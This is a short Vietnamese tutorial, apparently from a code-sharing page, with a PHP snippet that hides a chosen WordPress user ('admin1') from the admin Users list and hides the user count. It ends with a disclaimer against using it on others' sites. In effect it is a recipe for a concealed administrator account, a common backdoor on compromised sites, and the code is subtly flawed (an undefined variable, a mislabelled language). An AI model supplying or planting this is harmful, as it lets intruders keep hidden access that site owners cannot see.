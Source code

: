 # Hướng dẫn ẩn thành viên trong trang Admin của Wordpress

- Trước tiên, tạo user muốn ẩn ( Ví dụ user mình tạo là admin1, thì điền vào code dưới là admin1 ). Sau đó copy đoạn code dưới vào bất kỳ chỗ nào trong wordpress (function.php, *plugins,...).

```c
 add_action('pre_user_query','yoursite_pre_user_query');
function yoursite_pre_user_query($user_search) {
global $current_user;
if ($username == 'admin1') {
}
else{
global $wpdb;
$user_search->query_where = str_replace('WHERE 1=1',
 "WHERE 1=1 AND {$wpdb->users}.user_login != 'admin1' ",$user_search->query_where);
}
}

function hide_useR_count(){ ?> <style> .wp-admin.users-php span.count {display:none;} </style> <?php }
add_action('admin_head','hide_user_count');
```

- Đây là dòng code ẩn user trong admin wordpress, tôi không khuyến khích bạn làm trang wordpress của người khác. Tôi sẽ không chịu trách nhiệm nào việc bạn sử dụng mục đích không chính đáng.
